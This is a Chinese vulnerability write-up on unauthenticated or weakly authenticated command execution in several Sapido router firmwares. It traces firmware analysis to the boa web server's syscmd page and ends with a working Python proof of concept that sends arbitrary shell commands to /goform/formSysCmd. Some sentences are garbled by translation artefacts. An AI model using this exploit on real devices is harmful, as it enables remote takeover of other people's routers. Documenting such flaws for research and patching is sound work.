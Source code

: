 ```yaml
---
title: Sapido多款路由器命令执行漏洞&突破
id: zhfly3400
---
```


# Sapido多款路由器命令执行漏洞&突破

# 一、漏洞简介

## 二、漏洞影响

BR270n-v2.1.03

BRC76n-v2.1.03

GR297-v2.1.3

RB1732-v2.0.43

之前的版本存在命令执行漏洞

## 三、复现过程

### 0x01 固件环境模拟

![image](../img/4d08f3f8844296b47a94b326667219d0.png)

### 0x02 binwalk解压固件

![image](../img/cf2f09a9f7904b6f07dcfdecde3eb0be.png)

![image](../img/db5972e90ba09dfd10b1e75be39b30e8.png)

### 0x03 查看web容器

![image](../img/3c5264ae3120487aa7388b84e8f213f0.png)

对于嵌入式设备而言，很多服务都是移植开源的，`/etc/init.d`文件夹下是路由器启动时的加载项，在这些文件中可以看到很多的启动服务等，但是在这里我没有发现`web`容器的启动项，猜测可能厂商进行了二次开发

### 0x04 查找http服务模块

![image](../img/e4ae4ea2829fe1017a4569d44fd083f5.png)

在这里可以看到很多关于`http`的，我们不去关注`web`网页出现的。因为我们想要知道这款路由器的`web`容器是其中，所以我们把重点放在前面的`elf`文件处，在这里我们看到一个`cm`的`elf`文件，如果知道开源的`web`服务器`boa`可能猜到一些，下面就是`boa`的架构

![image](../img/bb8fb6f39147be7ce6d3701a1b62d099.png)

可以这里清晰的看到`web`层的英文如何状语从句：底层通过`boa`进行交互的。那么对于不知道的容器我们又该如何去分析呢？继续我们去分析剩下的`elf`程序，名字通过逐个状语从句：我们分析在`sysconf`程序中发现了`http`请求的处理方式，使用`ghidra`来分析`sysconf`

![image](../img/3f95540092a24766f5b226fa0f646d21.png)

通过全文搜索定位`http`到关键函数，在这里我们发现了一个关键的函数`apmib_get`通过猜测也能大概猜到这是一个关于获取的函数，通过`google`可以搜索到这个函数，会发现这个函数是关于`web`开源服务器的`boa`用到的函数，到那么这里我们就已经确认这款路由器的`web`容器的英文`boa`了。既然已经知道了`boa`，肯定那么这个知道有框架一个关键的文件`syscmd.htm`文件，可以执行系统命令，由于但是这款路由器的英文`asp`写的所以我们只进行检索`syscmd`

![image](../img/4c1f3b4e8603ac25c994ea7940911a6f.png)

这里可以发现两个文件，一个`elf`文件，一个`asp`文件，打开`asp`文件

![image](../img/d356097764142a977c0c60b6b551610a.png)

在这里可以抛光页面可以执行系统命令

### 0x05 通过url访问指定页面

![image](../img/bae12372b8490abbd3afe039e3764a64.png)

发现可以执行系统命令，那么这里又是如何处理的呢？

通过上面的`asp`文件可以知道，对于输入的命令处理应该和`formSysCmd`有关联，这里我们进行`grep`搜索

![image](../img/b7fe53d1cb34cb2aca9e4636211c39e9.png)

可以看到一个`webs`的`elf`文件，那么可以猜测这里可能就是`syscmd`执行的临时文件了

### 0x06 分析webs文件

![image](../img/7c8612f6069972dfd8f418fd6e59d028.png)

![image](../img/23d97c58cd9d29108f9bbfabc482f62a.png)

上面就是整个命令执行的逐步实现方式了，第一个图片可以看到使用`system`函数执行输入的系统命令，第二个图片可以裁剪将执行的结果通过`cat`输入到`/web/obama.dat`文件中，最后将`obama.dat`中的内容输入到`web`界面的文本框里。

### 0x07 poc

```
# Exploit Title: SAPIDO RB-1732 command line execution
# Date: 2019-6-24
# Exploit Author: k1nm3n.aotoi
# Vendor Homepage: http://www.sapido.com.tw/
# Software Link: http://www.sapido.com.tw/CH/data/Download/firmware/rb1732/tc/RB-1732_TC_v2.0.43.bin
# Version: RB-1732 V2.0.43 
# Tested on: linux

import requests

import sys

def test_httpcommand(ip, command):

my_data = {‘sysCmd’: command, ‘apply’: ‘Apply’, ‘submit-url’:’/syscmd.asp’, ‘msg’:’’}

r = requests.post(‘http://%s/goform/formSysCmd’ % ip, data = my_data)

content = r.text

content = content[

content.find(’<textarea rows=“15” name=“msg” cols=“80” wrap=“virtual”>’)+56:

content.rfind(’</textarea>’)]

return content

print test_httpcommand(sys.argv[1], " ".join(sys.argv[2:])) 
```

### 0x08 运行截图

![image](../img/8d2a79eeeab72698343d8f6a3b9eab33.png)

### 0x09 BR270n-v2.1.03命令执行突破

这个原理和RB1732差不多，只不过访问的页面变成了`syscmd.htm`了

![image](../img/cd26c4c05fe7cb3e12db463142ab07bb.png)

### 0x010 BRC76n-v2.1.03命令执行漏洞

![image](../img/a02e706e869f111c5d63049bf6910bd9.png)

### 0x011 GR297-v2.1.3命令执行漏洞

![image](../img/def3a4fc7e376858378cd14c789bfc71.png)

### 0x012 总结

BR270n，RB1732命令执行有个重置就是登陆路由器，可以进行信息的同步获取用户名和密码，而且又有很多路由器使用的还是其他用户名和密码，GR297，BRC76n则不需要进行登陆

## 参考链接

> [http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/](http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)